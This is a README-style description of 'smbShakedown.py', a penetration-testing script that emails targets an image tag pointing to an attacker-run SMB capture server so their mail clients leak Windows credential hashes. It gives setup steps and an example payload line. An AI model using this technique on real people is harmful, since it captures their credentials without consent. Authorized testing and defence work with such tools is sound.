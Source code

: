 #smbShakedown.py
    Description: A simplified SMB Email Client Attack script used for External/Internal pentests.
    Created by: Nick Sanzotta / @beamr
    Version: smbShakedown.py v 1.0

#External Pentest
    Virtual Private Server (VPS) recommended.
    If behind a firewall be sure to enable port forwarding for your SMB Capture Server.
    
    1.Configure SMTP Relay server address.
    
    2.Enter SMTP Relay server credentials. (anonymous connections not yet supported.)
    
    3.Configure "from" and "to" addresses.
    
    4.Enter SMBCapture Server IP address, so it can be placed in body of email 
    EX: <img src=file://127.0.0.1/image/foo.gif>
    *Verify this is the external IP address*
    
    5.SMBCapture Server does not have to be hosted locally.
    EX:(smbShakedown.py script can be ran locally on one system and a SMBCapture server can be hosted somewhere else like on a VPS server.

#Internal Pentest
    1.Configure SMTP Relay server address or your own locally hosted SMTP Server. (Looking into intergrated support.)
    <Does the client's Email server support relaying?>
    
    2.Enter SMTP Relay server credentials. (anonymous connections not yet supported.)
    
    3.Configure "from" and "to" addresses.
    
    4.Enter SMBCapture Server IP address, so it can be placed in body of email 
    EX: <img src=file://127.0.0.1/image/foo.gif>
    
    5.SMBCapture Server can be hosted locally when testing internal network.
    (Will add in support to automatically launch MSF Console with auxiliary/server/capture/smb)

#To do:
    SMTP Anonymous Auth option
    Add smtplib error handling
    Multiple recipient address support.
    SMTP local server option
    Create forked version.
